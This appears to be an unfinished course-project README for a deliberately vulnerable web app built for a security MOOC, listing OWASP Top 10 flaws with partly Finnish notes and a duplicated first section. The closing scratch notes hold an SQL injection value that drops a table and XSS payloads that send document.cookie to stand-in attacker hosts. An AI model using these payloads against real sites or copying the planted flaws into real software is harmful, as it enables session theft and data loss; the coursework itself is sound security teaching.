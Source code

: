 ### Cyber Security Base 2019 -project

This app is a project created for MOOC course Cyber Security Base 2019-2020.

## Project description
In the first course project, your task is to create a web application that has at least five different flaws from the OWASP top ten list (https://www.owasp.org/images/7/72/OWASP_Top_10-2017_%28en%29.pdf.pdf).
Starter code for the project is provided on Github at https://github.com/cybersecuritybase/cybersecuritybase-project.


/course/{id}
=> listaa opiskelija ja arvosanat

/course/{id}/grade/{studentid}


/student/{id}
=> listaa opiskelijan kurssit ja arvosanat

## Project essay

LINK: <link to repo>


##FLAW 1: A6:2017-Security Misconfiguration
#OWASP description of the security flaw:
Security misconfiguration is the most commonly seen issue. This is commonly a result of insecure
default configurations, incomplete or ad hoc configurations, open cloud storage, misconfigured
HTTP headers, and verbose error messages containing sensitive information. Not only must all
operating systems, frameworks, libraries, and applications be securely configured, but they must
be patched and upgraded in a timely fashion.

#How the security flaw behaves in the app
H2 data base URL not secured and using default password

#How to fix the security flaw in the app
Change default password to H2



##FLAW 1: A6:2017-Security Misconfiguration
#OWASP description of the security flaw:
Security misconfiguration is the most commonly seen issue. This is commonly a result of insecure
default configurations, incomplete or ad hoc configurations, open cloud storage, misconfigured
HTTP headers, and verbose error messages containing sensitive information. Not only must all
operating systems, frameworks, libraries, and applications be securely configured, but they must
be patched and upgraded in a timely fashion.

#How the security flaw behaves in the app
H2 data base URL not secured and using default password

#How to fix the security flaw in the app
Change default password to H2

##FLAW 2: A7:2017-Cross-Site Scripting (XSS)
#OWASP description of the security flaw:
XSS flaws occur whenever an application includes untrusted data in a new web page without
proper validation or escaping, or updates an existing web page with user-supplied data using a
browser API that can create HTML or JavaScript. XSS allows attackers to execute scripts in the
victim’s browser which can hijack user sessions, deface web sites, or redirect the user to
malicious sites.
#How the security flaw behaves in the app
IDEA: thymeleaf salli XSS inserttaus HOX: mikä hyöty.. Ihan vaan kiusanteko tms?

#How to fix the security flaw in the app


##FLAW 3: A3:2017-Sensitive Data Exposure
#OWASP description of the security flaw:
Many web applications and APIs do not properly protect sensitive data, such as financial,
healthcare, and PII. Attackers may steal or modify such weakly protected data to conduct credit
card fraud, identity theft, or other crimes. Sensitive data may be compromised without extra
protection, such as encryption at rest or in transit, and requires special precautions when
exchanged with the browser.

#How the security flaw behaves in the app
idea: näkee tietoja URL arvailulla jota ei pitäisi? --> kaikki en oppilaiden tiedot
#How to fix the security flaw in the app
autorisointi urliin /

##FLAW 4: A10:2017-Insufficient Logging & Monitoring
#OWASP description of the security flaw:
Insufficient logging and monitoring, coupled with missing or ineffective integration with incident
response, allows attackers to further attack systems, maintain persistence, pivot to more systems,
and tamper, extract, or destroy data. Most breach studies show time to detect a breach is over
200 days, typically detected by external parties rather than internal processes or monitoring.
#How the security flaw behaves in the app
#How to fix the security flaw in the app

##FLAW 5: A9:2017-Using Components with Known Vulnerabilities
#OWASP description of the security flaw:
Components, such as libraries, frameworks, and other software modules, run with the same
privileges as the application. If a vulnerable component is exploited, such an attack can facilitate
serious data loss or server takeover. Applications and APIs using components with known
vulnerabilities may undermine application defenses and enable various attacks and impacts.
#How the security flaw behaves in the app
harjoituksesta joku missä oli tää?

#How to fix the security flaw in the app



-- SQL injection =>  Hello insert
=> drop table?

INSERT INTO signup (address, name) VALUES ('testijuttu', 'moikka')

INSERT INTO signup (address, name) VALUES ('testijuttu', '
Bye bye courses!') ; DROP TABLE course; --
')


# ALLA OLEVA TOIMII
<script>document.write("<img src=\"http://www.haxor.com/cookisteal/" + document.cookie +"\"/>")  </script>

<script>fetch("http://www.haxor.com/cookisteal/" + document.cookie) </script>
document.cookie="JSESSIONID=12EE43AF515F83867B20D94907108063"
<img src='https://yourserver.evil.com/collect.gif?cookie=' + document.cookie/>
